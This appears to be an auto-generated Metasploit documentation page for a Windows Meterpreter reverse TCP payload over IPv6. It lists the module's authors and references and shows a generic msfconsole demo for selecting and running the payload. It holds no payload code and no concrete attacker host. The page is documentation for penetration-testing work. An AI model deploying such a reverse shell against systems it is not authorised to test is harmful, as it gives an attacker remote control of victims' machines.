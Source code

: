 ## Windows Meterpreter Shell, Reverse TCP Inline (IPv6)

Connect back to attacker and spawn a Meterpreter shell


## Module Name
payload/windows/meterpreter_reverse_ipv6_tcp

## Authors
* OJ Reeves
* sf


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/meterpreter_reverse_ipv6_tcp
msf payload(meterpreter_reverse_ipv6_tcp) > show targets
   ... a list of targets ...
msf payload(meterpreter_reverse_ipv6_tcp) > set TARGET <target-id>
msf payload(meterpreter_reverse_ipv6_tcp) > show options
   ... show and set options ...
msf payload(meterpreter_reverse_ipv6_tcp) > run
```
    
    